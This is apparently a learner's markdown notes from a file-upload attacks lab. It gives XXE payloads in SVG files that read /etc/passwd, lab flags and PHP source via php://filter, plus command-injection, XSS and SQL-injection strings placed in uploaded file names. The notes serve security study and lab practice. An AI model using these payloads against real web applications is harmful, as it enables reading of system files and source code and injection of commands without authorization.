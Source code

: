 ### XXE

#### SVG image that leaks the content of (`/etc/passwd`)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (`/etc/passwd`) printed on the page or shown in the page source

#### XXE to read source code in PHP web applications
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
Once the SVG image is displayed, we should get the base64 encoded content of` index.php`, which we can decode to read the source code.

*Note: XML data can be used by other types of documents, like PDF, Word Documents, and PowerPoint Documents*

***LAB Notes:*

Found flag using the `XXE.svg` payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
Was displayed in the inspector field

For second question used:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

Found base64 encoded file contents in inspector field
Decoded and found `./images/` filepath

## Other Upload Attacks

### Injections in File Name
Uses a malicious string for the uploaded file name, which may get executed or processed if the uploaded file name is displayed (i.e., reflected) on the page.

e.g.,
Naming a file `file$(whoami).jpg` or `file``whoami``.jpg `or ``file||whoami``
or
XSS payload in the file name: `<script>alert(window.origin);</script>`
or
SQLi in the file name: `file';select+sleep(5);--.jpg`



